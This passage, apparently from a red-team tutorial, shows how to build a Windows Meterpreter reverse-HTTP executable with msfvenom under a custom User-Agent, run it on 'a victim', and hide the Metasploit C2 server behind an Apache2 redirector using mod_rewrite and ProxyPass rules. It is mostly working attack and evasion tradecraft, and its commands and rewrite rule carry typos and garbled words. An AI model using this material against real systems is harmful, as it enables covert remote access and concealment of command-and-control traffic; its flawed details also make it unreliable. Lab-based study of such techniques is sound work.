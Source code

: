 **Generating a Payload with Modified Headers :**

> **msfvenom -p windows/meterpreter/reverse\_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe**

After generating the modified executable and transferring it to a victim, open up Wireshark on your host and use the HTTP filter to only view HTTP requests. After it’s started capturing packets, execute the binary on the victim system. You will notice an HTTP request come in with our modified User-Agent.

![](https://cdn-images-1.medium.com/max/800/1*zI559jrrg2Hw-paCst2YAA.png)

Now that we have a field we can control in the HTTP Request, let’s create an Apache2 **mod\_rewrite** rule that filters on the user agent “**NotMeterpreter”** and forward it to our Metasploit C2 Server.

#### **Modifying the Apache Config File**

This section may sound intimidating but is actually quite easy; we will be taking the default Apache config and modifying it to our advantage. On Debian based systems, the default config can be found **at /etc/apache2/sites-available/000-default.conf**

Default Apache2 Config

> **cat /etc/apache2/sites-available/000-default.conf grep -v ‘#’ <VirtualHost \*:80>**

Now that we have a general idea of the Apache2 Config file is structured, we must add a few lines to the config file to enable the Rewrite Engine, add a rewrite condition, and lastly, pass through the Apache 2 Proxy. This sounds fairly complex, but it’s quite simple.

To enable the Rewrite Engine, we must add **RewriteEngine On** onto a new line in the VirtualHost section.

Now we will be using a Rewrite Condition targeting the HTTP User-Agent. For a complete list of HTTP Request Targets, see the **mod\_rewrite** documentation on Apache.org. Because we only want to match the User-Agent “NotMeterpreter”, we need to use some basic Regular Expressions to capture this; adding the beginning of a string and a **$** at the end of the series, giving us with **“^NotMeterpreter$**”. This Regex will only capture the NotMeterpreter User-Agent. We can add this line **RewriteCond %{HTTP\_USER\_AGENT} “^NotMeterpreters”** to our config to (as previously stated) only allow HTTP Requests with the NotMeterpreter user agent to access Metasploit.

Lastly, we must forward the request through Apache2, through our proxy, to Metasploit. To do this, we must use the ProxyPass feature of Apache’s m module. To do this, we just need to specify the base URI that the request will be forwarded to (in our case, we just need “/”), and the target we want to the request to. This will vary from setup to set up, but this IP Address will be your C2 server. In the lab scenario, it will be localhost and port that Metas listening on. This will give us a full config file that looks like so:

**Modified Apache2 Config**

> **cat /etc/apache2/sites-available/000-default.conf grep -v ‘#’**

> **<VirtualHost \*:80>**

> **ServerAdmin webmaster@localhost**

> **DocumentRoot /var/www/html**
